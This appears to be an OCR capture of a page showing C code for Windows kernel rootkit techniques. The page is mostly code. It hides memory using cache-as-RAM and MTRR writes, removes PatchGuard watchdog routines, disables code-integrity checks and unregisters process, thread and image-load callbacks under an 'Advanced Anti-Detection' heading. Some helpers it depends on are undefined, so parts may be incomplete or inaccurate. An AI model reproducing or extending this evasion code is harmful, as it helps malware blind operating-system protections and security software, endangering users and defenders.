 ```c
// Setup cache-as-RAM for hiding memory
void SetupCacheAsRAM(uint64_t PhysAddr, uint32_t Size) {
    // Disable memory write-back
    __wbinvd();
    
    // Configure MTRRs
    WriteMSR(IA32_MTRR_PHYSBASE0, PhysAddr | MTRR_TYPE_WB);
    WriteMSR(IA32_MTRR_PHYSMASK0, ~(Size - 1) | MTRR_VALID);
    
    // Enable cache
    uint64_t cr0 = __readcr0();
    __writecr0(cr0 & ~CR0_CD);
}

// Handle cache coherency
void MaintainCacheCoherency() {
    // Flush TLB
    __invlpg(0);
    
    // Invalidate all cache lines
    __wbinvd();
    
    // Flush branch predictor
    __writemsr(IA32_PRED_CMD, 1);
}
```

## Advanced Anti-Detection

```c
// Remove PatchGuard callbacks
void DisablePatchGuardCallbacks() {
    // Find and remove DPC routines
    PKDPC_WATCHDOG_INFORMATION pWatchInfo = GetWatchdogDpc();
    if (pWatchInfo) {
        RemoveDpcFromList(&pWatchInfo->TimerDpc);
    }
    
    // Disable CI callbacks
    PCODE_INTEGRITY_INFO pCiInfo = GetCodeIntegrityInfo();
    if (pCiInfo) {
        pCiInfo->Enabled = FALSE;
    }
}

// Hide from kernel callbacks
void RemoveCallbackEntries() {
    // Process creation callbacks
    PsSetCreateProcessNotifyRoutine(DetourProcessCallback, TRUE);
    
    // Thread callbacks 
    PsRemoveCreateThreadNotifyRoutine(DetourThreadCallback);
    
    // Image load callbacks
    PsRemoveLoadImageNotifyRoutine(DetourImageCallback);
}
```
